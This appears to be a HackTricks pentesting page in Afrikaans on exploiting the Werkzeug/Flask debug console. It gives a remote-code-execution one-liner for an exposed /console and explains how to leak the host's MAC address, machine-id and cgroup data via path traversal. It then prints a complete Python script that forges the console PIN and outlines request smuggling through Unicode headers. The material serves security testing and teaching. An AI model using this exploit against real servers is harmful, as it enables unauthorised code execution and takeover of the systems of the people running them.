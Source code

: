 # Werkzeug / Flask Debug

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Kry 'n hacker se perspektief op jou webtoepassings, netwerk, en wolk**

**Vind en rapporteer kritieke, exploiteerbare kwesbaarhede met werklike besigheidsimpak.** Gebruik ons 20+ pasgemaakte gereedskap om die aanvaloppervlak te karteer, vind sekuriteitskwessies wat jou toelaat om bevoegdhede te verhoog, en gebruik geoutomatiseerde eksploit om noodsaaklike bewyse te versamel, wat jou harde werk in oortuigende verslae omskakel.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

As debug aktief is, kan jy probeer om toegang te verkry tot `/console` en RCE te verkry.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Daar is ook verskeie exploits op die internet soos [hierdie ](https://github.com/its-arun/Werkzeug-Debug-RCE)of een in metasploit.

## Pin Beskerm - Pad Traversal

In sommige gevalle gaan die **`/console`** eindpunt beskerm word deur 'n pin. As jy 'n **file traversal vulnerability** het, kan jy al die nodige inligting lek om daardie pin te genereer.

### Werkzeug Console PIN Exploit

Forceer 'n debug foutbladsy in die app om dit te sien:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
'n Boodskap rakende die "konsole vergrendel" scenario word teëgekom wanneer daar probeer word om toegang te verkry tot Werkzeug se foutopsporing koppelvlak, wat 'n vereiste vir 'n PIN aandui om die konsole te ontgrendel. Die voorstel word gemaak om die konsole PIN te benut deur die PIN generasie-algoritme in Werkzeug se foutopsporing inisialiseringslêer (`__init__.py`) te analiseer. Die PIN generasie-meganisme kan bestudeer word vanaf die [**Werkzeug bronkode-bewaarplek**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), alhoewel dit aanbeveel word om die werklike bediener kode te verkry via 'n lêer traversering kwesbaarheid weens moontlike weergawe verskille.

Om die konsole PIN te benut, is twee stelle veranderlikes, `probably_public_bits` en `private_bits`, nodig:

#### **`probably_public_bits`**

* **`username`**: Verwys na die gebruiker wat die Flask-sessie begin het.
* **`modname`**: Gewoonlik aangewys as `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Oor die algemeen los dit op na **Flask**.
* **`getattr(mod, '__file__', None)`**: Verteenwoordig die volle pad na `app.py` binne die Flask-gids (bv. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). As `app.py` nie van toepassing is nie, **probeer `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Verkry die MAC-adres van die huidige masjien, met `str(uuid.getnode())` wat dit in 'n desimale formaat vertaal.
* Om **die bediener se MAC-adres te bepaal**, moet 'n mens die aktiewe netwerkinterface wat deur die app gebruik word, identifiseer (bv. `ens3`). In gevalle van onsekerheid, **lek `/proc/net/arp`** om die toestel-ID te vind, dan **onttrek die MAC-adres** van **`/sys/class/net/<device id>/address`**.
*   Om 'n heksadesimale MAC-adres na desimaal om te skakel kan soos hieronder gedoen word:

```python
# Voorbeeld MAC-adres: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Voeg data van `/etc/machine-id` of `/proc/sys/kernel/random/boot_id` saam met die eerste lyn van `/proc/self/cgroup` na die laaste skuinsstreep (`/`).

<details>

<summary>Kode vir `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Na die versameling van alle nodige data, kan die exploit-skrip uitgevoer word om die Werkzeug-konsol PIN te genereer:

Na die versameling van alle nodige data, kan die exploit-skrip uitgevoer word om die Werkzeug-konsol PIN te genereer. Die skrip gebruik die saamgestelde `probably_public_bits` en `private_bits` om 'n hash te skep, wat dan verdere verwerking ondergaan om die finale PIN te produseer. Hieronder is die Python-kode om hierdie proses uit te voer:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Hierdie skrip vervaardig die PIN deur die gekonkateneerde bits te hash, spesifieke sout (`cookiesalt` en `pinsalt`) by te voeg, en die uitvoer te formateer. Dit is belangrik om te noem dat die werklike waardes vir `probably_public_bits` en `private_bits` akkuraat van die teikenstelsel verkry moet word om te verseker dat die gegenereerde PIN ooreenstem met die een wat deur die Werkzeug-konsol verwag word.

{% hint style="success" %}
As jy op 'n **ou weergawe** van Werkzeug is, probeer om die **hashing-algoritme na md5** te verander in plaas van sha1.
{% endhint %}

## Werkzeug Unicode karakters

Soos waargeneem in [**hierdie probleem**](https://github.com/pallets/werkzeug/issues/2833), sluit Werkzeug nie 'n versoek met Unicode karakters in headers. En soos verduidelik in [**hierdie skrywe**](https://mizu.re/post/twisty-python), kan dit 'n CL.0 Request Smuggling kwesbaarheid veroorsaak.

Dit is omdat dit in Werkzeug moontlik is om sommige **Unicode** karakters te stuur en dit sal die bediener **breek**. As die HTTP-verbinding egter met die header **`Connection: keep-alive`** geskep is, sal die liggaam van die versoek nie gelees word nie en die verbinding sal steeds oop wees, so die **liggaam** van die versoek sal as die **volgende HTTP versoek** behandel word.

## Geoutomatiseerde Exploitatie

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Verwysings

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Kry 'n hacker se perspektief op jou webtoepassings, netwerk, en wolk**

**Vind en rapporteer kritieke, eksploiteerbare kwesbaarhede met werklike besigheidsimpak.** Gebruik ons 20+ pasgemaakte gereedskap om die aanvaloppervlak te karteer, beveiligingskwessies te vind wat jou toelaat om voorregte te verhoog, en gebruik geoutomatiseerde exploits om noodsaaklike bewyse te versamel, wat jou harde werk in oortuigende verslae omskep.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
